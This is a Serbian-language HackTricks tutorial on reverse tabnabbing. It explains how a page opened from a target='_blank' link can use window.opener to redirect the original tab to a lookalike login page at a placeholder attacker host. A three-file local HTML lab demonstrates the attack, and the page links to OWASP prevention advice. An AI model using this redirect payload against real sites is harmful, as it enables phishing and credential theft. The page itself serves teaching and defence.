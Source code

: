 # Reverse Tab Nabbing

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Opis

U situaciji kada **napadač** može **kontrolisati** argument **`href`** **`<a`** taga sa atributom **`target="_blank" rel="opener"`** koji će biti kliknut od strane žrtve, **napadač** može da **usmeri** ovaj **link** na veb stranicu pod njegovom kontrolom (zlonamerna veb stranica). Zatim, kada **žrtva klikne** na link i pristupi napadačevom veb sajtu, ovaj **zlonamerni** **veb sajt** će biti u mogućnosti da **kontroliše** **originalnu** **stranicu** putem JavaScript objekta **`window.opener`**.\
Ako stranica nema **`rel="opener"` ali sadrži `target="_blank"` i nema `rel="noopener"`** takođe može biti ranjiva.

Uobičajeni način zloupotrebe ovog ponašanja bio bi da **promeni lokaciju originalnog veba** putem `window.opener.location = https://attacker.com/victim.html` na veb koji kontroliše napadač, a koji **izgleda kao originalni**, tako da može **imitirati** **formu za prijavu** originalnog veb sajta i tražiti od korisnika pristupne podatke.

Međutim, treba napomenuti da pošto **napadač sada može da kontroliše prozor originalnog veb sajta** on može da ga zloupotrebi na druge načine kako bi izveo **skrivenije napade** (možda modifikovanjem JavaScript događaja da bi izvršio izvlačenje informacija na server koji kontroliše on?).

## Pregled

### Sa povratnim linkom

Veza između roditeljske i dečje stranice kada se ne koristi atribut za prevenciju:

![https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

### Bez povratnog linka

Veza između roditeljske i dečje stranice kada se koristi atribut za prevenciju:

![https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

### Primeri <a href="#examples" id="examples"></a>

Kreirajte sledeće stranice u folderu i pokrenite veb server sa `python3 -m http.server`\
Zatim, **pristupite** `http://127.0.0.1:8000/`vulnerable.html, **kliknite** na link i primetite kako se **URL originalnog veb sajta menja**.

{% code title="vulnerable.html" %}
```
```
{% endcode %}

```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```

{% code title="malicious.html" %}
```
```
{% endcode %}

```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

### Pristupačna svojstva <a href="#pristupacna-svojstva" id="pristupacna-svojstva"></a>

U scenariju kada se dogodi **prekogranični** pristup (pristup preko različitih domena), svojstva instance JavaScript klase **window**, na koju se referiše JavaScript objektna referenca **opener**, koja može biti pristupljena od strane zlonamerne stranice, su ograničena na sledeće:

* **`opener.closed`**: Ovo svojstvo se koristi da bi se utvrdilo da li je prozor zatvoren, vraćajući boolean vrednost.
* **`opener.frames`**: Ovo svojstvo omogućava pristup svim iframe elementima unutar trenutnog prozora.
* **`opener.length`**: Ovo svojstvo vraća broj iframe elemenata prisutnih u trenutnom prozoru.
* **`opener.opener`**: Referenca na prozor koji je otvorio trenutni prozor može se dobiti putem ovog svojstva.
* **`opener.parent`**: Ovo svojstvo vraća roditeljski prozor trenutnog prozora.
* **`opener.self`**: Ovo svojstvo omogućava pristup samom trenutnom prozoru.
* **`opener.top`**: Ovo svojstvo vraća najviši prozor pregledača.

Međutim, u slučajevima kada su domeni identični, zlonamerna stranica dobija pristup svim svojstvima izloženim od strane [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScript objektne reference.

## Prevencija

Informacije o prevenciji su dokumentovane u [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing).

### Reference

* [https://owasp.org/www-community/attacks/Reverse\_Tabnabbing](https://owasp.org/www-community/attacks/Reverse\_Tabnabbing)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
